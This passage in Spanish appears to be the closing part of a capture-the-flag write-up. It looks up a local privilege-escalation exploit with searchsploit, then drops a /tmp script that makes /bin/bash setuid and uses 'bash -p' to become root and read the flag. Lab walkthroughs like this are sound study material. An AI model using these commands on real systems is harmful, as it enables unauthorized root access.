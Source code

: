 Ya vemos que hay un exploit para Local Priviledge Escalation. Lo analizamos.

```bash
searchsploit -x 33899
```

Creamos un fichero llamado update en tmp

```bash
cd /tmp
echo '#!/bin/bash\n\nchmod 4755 /bin/bash' > update
chmod +x update
watch -n 1 ls -l /bin/bash
```

Ya podemos utilizar bash para convertirnos en root

```bash
bash -p
whoami
#Output

root
```

Ya hemos rooteado la maquina y podemos ver la flag.

